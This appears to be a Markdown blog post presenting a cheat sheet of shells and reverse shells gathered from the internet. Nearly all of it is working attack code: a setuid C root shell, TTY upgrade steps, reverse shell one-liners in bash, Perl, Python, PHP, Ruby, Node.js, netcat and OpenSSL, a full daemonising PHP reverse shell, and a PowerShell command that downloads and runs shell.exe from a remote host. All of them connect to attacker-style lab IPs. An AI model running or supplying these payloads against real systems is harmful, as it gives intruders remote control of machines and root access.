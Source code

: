 ```yaml
---
layout: post
title: Shell & Reverse Shell
description: >
  There are list of Shell and Reverse Shell Collected from Internet.
---
```



# Shell & Reverse Shell

There are list of Shell and Reverse Shell Collected from Internet.


## Find Out What program are Install

```bash

$ for item in $(echo "nmap nc perl python ruby gcc wget sudo curl php"); do which $item; done

```



## C Shell

> #### vim cShell.c
```c

int main(){
    setresuid(0,0,0);
    system("/bin/bash");
}

```
> #### for compile `$ gcc cShell.c -o cShell`

## TTY Shell

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
# Background shell with `Ctrl+z`

$ echo $TERM && tput lines && tput cols
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <num>

``` 
### Bash

```bash

$ exec 5<>/dev/tcp/10.10.11.11/9001 cat <&5 | while read line;do $line 2>&5 >&5;done

```


```bash
$ bash -i >& /dev/tcp/10.10.10.1/9001 0>&1

```

### Perl

```bash

$ perl -e 'use Socket;$i="10.10.11.14";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&s");open(STDERR,">&s");exec("/bin/sh -i");};'

```


### Python

```bash

$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9003));os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


```





### PHP

```bash

$ php -r '$sock=fsockopen("10.10.14.11",9001);exec("/bin/sh -i <&3 >&3 2>&3");'

```

```php

<?php set_time_limit(0);$VERSION="1.0";$ip='10.10.11.11';$port=9001;$chunk_size=1400;$write_a=null;$error_a=null;$shell='uname -a; w; id; /bin/sh -i';$daemon=0;$debug=0;if(function_exists('pcntl_fork')){$pid=pcntl_fork();if($pid==-1){printit("ERROR: Can't fork");exit(1);}if($pid){exit(0);}if(posix_setsid()==-1){printit("Error: Can't setsid()");exit(1);}$daemon=1;}else {printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");}chdir("/");umask(0);$sock=fsockopen($ip,$port,$errno,$errstr,30);if(!$sock){printit("$errstr ($errno)");exit(1);}$descriptorspec=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$process=proc_open($shell,$descriptorspec,$pipes);if(!is_resource($process)){printit("ERROR: Can't spawn shell");exit(1);}stream_set_blocking($pipes[0],0);stream_set_blocking($pipes[1],0);stream_set_blocking($pipes[2],0);stream_set_blocking($sock,0);printit("Successfully opened reverse shell to $ip:$port");while(1){if(feof($sock)){printit("ERROR: Shell connection terminated");break;}if(feof($pipes[1])){printit("ERROR: Shell process terminated");break;}$read_a=array($sock,$pipes[1],$pipes[2]);$num_changed_sockets=stream_select($read_a,$write_a,$error_a,null);if(in_array($sock,$read_a)){if($debug)printit("SOCK READ");$input=fread($sock,$chunk_size);if($debug)printit("SOCK: $input");fwrite($pipes[0],$input);}if(in_array($pipes[1],$read_a)){if($debug)printit("STDOUT READ");$input=fread($pipes[1],$chunk_size);if($debug)printit("STDOUT: $input");fwrite($sock,$input);}if(in_array($pipes[2],$read_a)){if($debug)printit("STDERR READ");$input=fread($pipes[2],$chunk_size);if($debug)printit("STDERR: $input");fwrite($sock,$input);}}fclose($sock);fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($process);function printit($string){if(!$daemon){print"$string\n";}}?>

```



### Ruby
 
```bash

$ ruby -rsocket -e 'f=TCPSocket.open("10.10.11.11",9001).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```
> ## or

```bash

$ ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.11.11","9001");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';

```


### Nodejs

```javascript

(function(){
    const net = require("net");
    const cp = require("child_process");
    const sh = cp.spawn("/bin/sh",[]);

    const client = new net.Socket();
    client.connect(9001,"10.10.11.11",function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();

``` 

```javascript

 require('child_process').exec('nc -e /bin/sh 10.10.11.11 9001')

```





### Netcat With -e 

```nc

$ nc -e /bin/sh 10.10.10.1 9001

```

### Netcat Without -e 

```nc 

$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.11.11 9001 >/tmp/f

```


### OpenSSL

```bash

$ mkdir -p ~/tmp/openssl && cd ~/tmp/openssl && openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -key key.pem -cert cert.pem -accept 8000

$ mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -qu -connect 10.10.11.11:8000 > /tmp/s; rm /tmp/s

```





### Binary Execute

- https://github.com/audibleblink/gorsh
- https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell


### Server 

```python

$ python3 -m http.server 

```

### Downloader

```powershell

powershell -command "((new-object System.Net.WebClient).DownloadFile('http://10.10.11.11:8080/shell.exe','%TEMP%\shell.exe'))";"c:\windows\system32\cmd.exe /c %TEMP%\shell.exe"

```

### Not Powershell

- https://github.com/Ben0xA/nps